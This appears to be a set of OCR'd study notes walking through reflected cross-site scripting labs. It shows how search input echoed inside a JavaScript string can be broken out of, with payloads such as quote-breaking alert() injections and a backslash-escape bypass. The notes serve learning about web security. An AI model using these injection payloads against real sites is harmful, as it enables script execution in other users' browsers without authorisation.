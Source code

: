 **Search -> 12345678**

```
Response:
<script>
	var searchTerms = '12345678';
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Angle brackets get encoded.

```
';alert(document);//

'-alert(1)-'
```

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

**Search -> 12345678**

```
Response:
<script>
	var searchTerms = '12345678';
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

```
'-alert(1)-'

Response:
var searchTerms = '\'-alert(1)-\'';
```

Single quote gets backslash-escaped. Can we bypass adding a backslash and double slash?

```
\'-alert(1)//
```

### Lab: Reflected XSS in a JavaScript URL with some characters blocked

This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

Post a comment with these to name and comment : `< > / ' " : ; =`
